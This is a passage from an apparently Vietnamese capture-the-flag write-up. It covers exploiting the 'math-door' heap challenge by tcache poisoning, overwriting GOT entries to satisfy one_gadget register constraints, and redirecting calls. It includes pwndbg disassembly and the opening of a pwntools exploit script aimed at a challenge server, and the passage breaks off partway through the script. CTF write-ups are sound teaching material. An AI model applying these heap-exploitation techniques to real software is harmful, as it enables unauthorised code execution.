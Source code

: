 Nên mình đoán, khi pop `tcachebin[0]` ra, ta luôn được `$rdx = *(QWORD *)(tcachebin[0]+0x10)`.

Mình muốn `$rdx=0` để thoả one_gadget thì phải ép  `*(QWORD *)(tcachebin[0]+0x10)=0`, tuy nhiên do chưa leak libc nên ta không biết phải cộng offset/trừ bao nhiêu cho nó bằng 0.

Để ý ở trên, ta có `*(QWORD *)(tcachebin[0]+0x8)=0`, mình đoán là do libc clear đi key của tcachebin trước khi pop.

Đây là chiến thuật mình nghĩ ra: 
```
got_target + 0x00|  .....  <--- tcachebin[1]
got_target + 0x08|  .....  <--- tcachebin[0]
got_target + 0x10|  .....
got_target + 0x18|  .....
got_target + 0x20|  .....
```
Đầu tiên khi pop `tcachebin[0]` ta sẽ được `*(QWORD *)(got_target + 0x10)=0` , khi pop `tcachebin[1]`, ta sẽ có `$rdx = *(QWORD *)(got_target + 0x10)=0` :D.

Giờ mình muốn `$rsi=0` để thoả mãn one_gadget `0xe3b04`, sau một hồi mò mẫm, mình thấy được đoạn code hữu ích.

```x86asm
pwndbg> x/3i 0x7f0a75cd9deb
   0x7f0a75cd9deb <__libc_calloc+731>:	xor    esi,esi
   0x7f0a75cd9ded <__libc_calloc+733>:	call   0x7f0a75c60560 <*ABS*+0xa0540@plt>
   0x7f0a75cd9df2 <__libc_calloc+738>:	mov    r8,rax
pwndbg> x/2i 0x7f0a75c60560
   0x7f0a75c60560 <*ABS*+0xa0540@plt>:	endbr64 
   0x7f0a75c60564 <*ABS*+0xa0540@plt+4>:	bnd jmp QWORD PTR [rip+0x1c9bbd]        # 0x7f0a75e2a128 <*ABS*@got.plt>
pwndbg> x/a 0x7f0a75e2a128
0x7f0a75e2a128 <*ABS*@got.plt>:	0x7f0a75dc9b60 <__memset_avx2_unaligned_erms>
```

Vậy là cuối cùng ta chỉ cần ghi đè
```
got_calloc_call = one_gadget
got_puts_call =  __libc_calloc+731
```
Bạn có thể debug script của mình để rõ hơn:

```python
from pwn import *
from pwn import time
#pwndbg> x/3i 0x7f0a75cd9deb
#   0x7f0a75cd9deb <__libc_calloc+731>:	xor    esi,esi
#   0x7f0a75cd9ded <__libc_calloc+733>:	call   0x7f0a75c60560 <*ABS*+0xa0540@plt>
#   0x7f0a75cd9df2 <__libc_calloc+738>:	mov    r8,rax
#pwndbg> x/2i 0x7f0a75c60560
#   0x7f0a75c60560 <*ABS*+0xa0540@plt>:	endbr64 
#   0x7f0a75c60564 <*ABS*+0xa0540@plt+4>:	bnd jmp QWORD PTR [rip+0x1c9bbd]        # 0x7f0a75e2a128 <*ABS*@got.plt>
#pwndbg> x/a 0x7f0a75e2a128
#0x7f0a75e2a128 <*ABS*@got.plt>:	0x7f0a75dc9b60 <__memset_avx2_unaligned_erms>

e=ELF('./math-door')
libc=e.libc
if args.LOCAL:
    io = e.process()
elif args.REMOTE:
    io=remote("165.232.98.11",32017) #165.232.98.11:32017
def c(recv_newline=True):
    if recv_newline:
        io.sendlineafter(b'Action: \n', b'1')
    else:
        io.sendlineafter(b'Action: ', b'1')
def d(idx,recv_newline=True):
```